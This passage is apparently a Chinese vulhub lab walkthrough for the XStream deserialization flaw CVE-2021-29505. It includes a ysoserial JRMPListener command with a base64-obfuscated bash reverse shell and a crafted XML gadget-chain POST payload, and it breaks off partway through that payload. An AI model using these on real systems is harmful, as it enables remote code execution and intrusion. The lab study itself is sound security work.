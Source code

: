 ### vulhub复现  
  
黑盒看Content-Type有无xml,然后看格式是不是xml的格式数据,前提是java应用  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuMclp9jdrbDWiavxIEA02bs7UVYIcYbrkUicJdDhmwDtYHmDrS8F8icfrg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuDlOGQxzAIgHbbO6VUJPNWIkwUSUldl8QFpVXVib3GxK5SVSHBSXVRbQ/640?wx_fmt=png&from=appmsg "")  
  
这里抓包然后丢一个xml格式,发送请求发现抱错  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tulSRTmPYbeUmMLz8jfLwKXmxe9ZQsiauttmqKvXQO09vX46uUzibhcPsQ/640?wx_fmt=png&from=appmsg "")  
  
然后使用官方的poc改一下jndi注入命令和host即可  
### 远程代码执行 （CVE-2021-29505）  
  
XStream <= 1.4.16  
  
对数据包中的xml数据进行处理,可能用xstream处理  
  
这里官方判别就是xml格式,接受文件类型中有xml,body也有,返回也有,xml格式可以猜测是xstream处理的  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tuYvsarcicwHucTZPDHU0BeKAUy0W70vsjPianI0KYwM4q6z1v0uFylibvA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT3pJteFFlGYIIG0UpnmO8tu2zdVMdbRicv7ib6MIHabTwe3iabhUlrdVD0csxNJNt0PvYMSElherjEag/640?wx_fmt=png&from=appmsg "")  
  
-生成反弹Shell的反序列化JNDI注入  
  
java -cp ysoserial-0.0.8-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1089 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjY2LjE1Mi82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}"  
  
-构造反序列化JNDI注入Payload提交  

```
POST / HTTP/1.1
Host: 192.168.66.152:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
```
